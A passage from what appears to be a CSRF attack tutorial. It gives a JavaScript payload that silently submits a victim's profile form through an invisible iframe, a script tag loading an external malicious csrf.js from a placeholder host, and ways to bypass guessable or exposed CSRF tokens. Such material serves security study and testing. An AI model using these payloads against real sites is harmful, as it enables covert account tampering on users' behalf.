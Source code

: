 ```html
// Load the form in an invisible frame
document.write('<iframe id="iframe" src="<https://xxx.fr/index.php?action=profile>" width="0" height="0" onload="pwn()"></iframe>');

// Modify the form fields and submit
function pwn() {
  var iframeDoc = document.getElementById('iframe').contentDocument;
  var form = iframeDoc.forms[0];
  form.username.value = 'titi';
  form.status.checked = true;
  form.status.disabled = false;
  form.submit();
}
```

**Details:**
- The form is loaded inside an invisible iframe, meaning it is **invisible to the user** but still active on the page.
- JavaScript modifies the form’s values and submits it without the user being aware of the action.
- This attack is highly **undetectable** by the user.

---

**6. Load External Script**

An attacker can also load an external malicious script on a vulnerable page. The script could contain CSRF attack logic or any other malicious behavior.

```html
<script src="<http://XXXXXXX/csrf.js>"></script>
```

**Details:**
- The attacker can host a script (such as a CSRF attack script) on an external server and include it in a vulnerable page.
- This script can perform various actions, including submitting malicious forms or triggering other CSRF-based exploits.
- This technique depends on the ability to inject or control scripts on a vulnerable page.

---

### Advanced Techniques

**1. Bypassing CSRF Tokens**

Some web applications protect against CSRF by using **tokens** in the form. These tokens are designed to be unpredictable and unique, which makes it difficult for attackers to forge a valid request. However, there are ways to bypass these protections:

- **Guessable Tokens**: Some applications use **predictable or sequential** tokens that attackers can guess, especially if the tokens are simple integers or based on an easily guessable pattern.
  
- **Token Exposure**: In some cases, tokens are exposed through **URLs**, **logs**, or **inconsistent sessions**, making it easier for attackers to retrieve the token and reuse it for a malicious request.

---